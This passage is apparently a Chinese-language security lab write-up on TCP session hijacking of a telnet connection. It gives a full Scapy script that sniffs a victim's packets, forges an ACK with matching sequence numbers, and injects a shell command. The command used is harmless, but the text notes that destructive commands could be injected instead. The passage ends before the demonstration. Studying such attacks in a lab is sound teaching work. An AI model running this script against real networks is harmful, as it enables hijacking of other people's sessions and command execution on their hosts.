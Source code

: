 TCP 会话劫持攻击的目标是通过向会话中注入恶意内容来劫持两个受害者之间现有的 TCP 连接（会话）。

如果此连接是 telnet 会话，攻击者可以向此会话注入恶意命令（例如删除重要文件），导致受害者执行恶意命令。

编写 `tcphijacking.py`:

```python
#!/usr/bin/env python3

from scapy.all import *

def spoof_pkt(pkt):
    
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
    # 创建IP层对象，交换源地址和目的地址
    # - 源地址（src）设为捕获到的数据包的目的地址
    # - 目的地址（dst）设为捕获到的数据包的源地址

    tcp = TCP(sport=pkt[TCP].dport, dport=23,
              flags="A",
              seq=pkt[TCP].ack, ack=pkt[TCP].seq+1)
    # 创建TCP层对象：
    # - 源端口（sport）设为捕获到的数据包的目的端口
    # - 目的端口（dport）设为23（通常为Telnet端口）
    # - 标志位（flags）设为 "A"，表示TCP ACK（确认）包
    # - 序列号（seq）设为捕获包的确认号（ack），
    # - 确认号（ack）设为捕获包的序列号加1

    data = "echo \"You\'re hijacked!\" >> ~/hijacking.out\n\0"
    # 定义数据部分，包含一个恶意命令，尝试将字符串追加到目标系统的文件中
    # - 该命令试图将消息写入目标主机的hijacking.out文件
    # ~符号通常代表用户的主目录。例如，对于用户user1，该路径会解析为/home/user1/hijacking.out

    pkt = ip/tcp/data

    ls(pkt)

    send(pkt, verbose=0)
    # 发送伪造的TCP ACK包，设置verbose=0以避免输出发送日志

f = f'tcp and src host 10.9.0.5'
# 定义过滤条件，仅捕获源IP地址为10.9.0.5的TCP数据包

pkt = sniff(iface='br-832b8642e575', filter=f, prn=spoof_pkt)
# 捕获网络数据包：
# - 捕获到符合条件的数据包后，调用函数 spoof_pkt 对该包进行处理

```

脚本的攻击目标是向目标主机注入恶意命令，并试图将其写入目标主机的文件 `~/hijacking.out` 中

我们先让 $user1$ 连接上 $victim$ :
